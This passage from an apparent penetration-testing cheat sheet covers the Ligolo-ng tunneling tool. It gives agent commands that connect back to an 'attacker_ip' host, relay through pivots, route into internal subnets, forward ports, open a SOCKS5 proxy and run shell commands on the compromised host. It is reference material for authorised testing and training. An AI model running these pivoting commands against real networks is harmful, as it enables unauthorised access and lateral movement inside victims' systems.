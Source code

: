 ```bash
./agent -listen 0.0.0.0:11601 -ignore-cert

# Agent with custom socket timeout
./agent -connect attacker_ip:11601 -ignore-cert -timeout 30s
```

### 4.2 Session Management and Network Configuration

```bash
# Ligolo-ng interactive commands

# List all connected agents
ligolo-ng » session

# Select specific agent session
ligolo-ng » session 1

# Display agent network information
agent » ifconfig

# Start tunneling session
agent » start

# Stop active tunnel
agent » stop

# Add route to specific network
agent » tunnel_add --tun ligolo --route 10.10.10.0/24

# Add multiple network routes
agent » tunnel_add --tun ligolo --route 172.16.0.0/16
agent » tunnel_add --tun ligolo --route 10.0.0.0/8

# Remove specific route
agent » tunnel_del --tun ligolo --route 10.10.10.0/24
```

### 4.3 Advanced Tunneling Features

```bash
# Port forwarding through agent
agent » listener_add --addr 0.0.0.0:8000 --to 10.0.0.10:80 --tcp

# UDP service forwarding
agent » listener_add --addr 0.0.0.0:53 --to 10.0.0.53:53 --udp

# Reverse port forwarding
agent » listener_add --addr 0.0.0.0:443 --to 192.168.1.100:443 --tcp

# List active listeners
agent » listener_list

# Remove specific listener
agent » listener_del --id 1

# Agent relay for multi-hop pivoting
./agent -connect first_pivot:11601 -ignore-cert -relay

# Agent with SOCKS5 proxy
./agent -connect attacker_ip:11601 -ignore-cert -socks5 127.0.0.1:1080

# Command execution on agent host
agent » shell whoami
agent » shell "netstat -an | grep LISTEN"
```